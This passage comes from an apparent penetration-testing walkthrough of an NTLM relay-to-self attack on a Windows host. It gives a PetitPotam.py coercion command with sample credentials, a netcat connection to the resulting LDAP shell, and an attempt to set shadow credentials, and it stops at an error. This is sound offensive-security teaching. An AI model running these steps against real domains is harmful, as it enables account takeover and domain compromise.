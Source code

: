 ## Performing the attack with PetitPotam.py

Finally we are ready to use [PetitPotam.py](https://github.com/topotam/PetitPotam) to coerce the system (WS01) to itself . We are authenticating it to itself on port 4444, which is where our tunnel (reverse proxy), is listening.

```bash
python3 PetitPotam/PetitPotam.py -u 'incendium' -p 'Password123' -pipe all "ws01@2333/wazzup" 10.10.1.129
```

Inside the ntlmrelayx output, we can see the following happening:

![](/assets/img/posts/ntlmrelay2self/5.png)
Like we wanted, it started a LDAP shell that locally runs on port 11000. We can interact with the shell using netcat for example.

```bash
nc 127.0.0.1 11000
```

This connects to the LDAP shell waiting for a action to be performed. 

![](/assets/img/posts/ntlmrelay2self/6.png)

We have a few options. Like said, we will be setting the shadow credentials. We can use set_shadow_creds for this.

![](/assets/img/posts/ntlmrelay2self/7.png)
However, we receive a error that we have insufficient rights. However, this is not a rights problem. The problem is that the shadow credentials attribute “msDS-KeyCredentialLink” are already set for WS01. We can check this with bloodyAD:
